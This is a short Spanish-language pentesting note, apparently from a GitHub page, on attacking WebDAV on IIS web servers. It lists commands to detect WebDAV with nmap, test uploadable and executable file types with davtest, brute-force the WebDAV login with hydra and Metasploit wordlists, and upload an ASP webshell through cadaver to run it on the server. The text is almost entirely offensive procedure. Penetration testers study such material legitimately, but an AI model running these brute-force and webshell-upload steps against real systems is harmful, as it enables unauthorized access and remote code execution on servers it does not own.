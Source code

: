 Para enumerar esta feature de IISS, primero nos percataremos de su existencia tras la hacer fuzzing sobre el servidor web IIS:

`sudo nmap -sS -p80 --script=http-enum <ip>` 

también podemos usar otras herramientas de fuzzing como gobuster, wfuzz.

Para enumerar utilizaremos dos herramientas:
### davtest
Para analizar ficheros de qué tipo podemos subir, modificar, ejecutar...
`davtest -auth user:pass -url http://10.10.10.1/webdav`

Si no tenemos credenciales, podemos usar hydra para el formulario de login de webdav:
`hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt 10.10.10.1 http-get /webdav/`

### cadaver
Para subir ficheros por ejemplo ficheros maliciosos que subirá en el webdav folder y luego ejecutarlos desde ahí y que los interprete, por ejemplo una webshell:

`cadaver -url http://ip`

Subimos por ejemplo una webshell asp:
`put /usr/share/webshells/asp/webshell.asp`






